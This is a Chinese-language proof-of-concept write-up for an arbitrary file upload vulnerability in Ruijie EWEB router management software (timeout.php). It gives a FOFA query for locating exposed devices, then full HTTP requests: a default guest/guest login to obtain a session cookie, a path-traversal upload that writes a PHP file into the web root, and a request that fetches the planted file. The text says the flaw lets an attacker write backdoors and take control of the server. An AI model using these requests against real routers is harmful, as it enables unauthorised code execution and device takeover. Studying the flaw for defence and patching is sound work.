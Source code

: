 # 锐捷 EWEB路由器 timeout.php任意文件上传漏洞

# 一、漏洞简介
锐捷睿易是锐捷网络面向商务市场的子品牌。拥有便捷的网络、交换机、路由器、无线、安全、云服务六大产品线，解决方案涵盖商业零售、酒店、kt、网吧、监控与安全、物流、仓储、制造。通过该漏洞，攻击者可以任意执行服务器端的代码，编写后门，获得服务器权限，进而控制整个web服务器。

# 二、影响版本
+ 锐捷 EWEB路由器

# 三、资产测绘
+ fofa`title=”锐捷网络-EWEB网管系统"`
+ 特征

# 四、漏洞复现
获取cookie
```plain
POST /ddi/server/login.php HTTP/1.1
Host: 
User-Agent: Mozilla/5.0
Content-Length: 30
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Connection: keep-alive

username=guest&password=guest?
```
上传

```plain
POST /system_pi/timeout.php?a=upload HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36
Content-Length: 62
Accept: */*
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Cookie: RUIJIEID=dumk6rq561ie9udafp5eod39t7; path=/; HttpOnly; RUIJIEID=dumk6rq561ie9udafp5eod39t7
X-Requested-With: XMLHttpRequest
Connection: keep-alive
 
fileName=../tmp/html/233.php&mes=<?php echo 23149147841;?>
```
访问上传结果

```plain
GET /233.php HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36
Connection: keep-alive
Cookie: RUIJIEID=dumk6rq561ie9udafp5eod39t7
Accept-Encoding: gzip, deflate, br
```

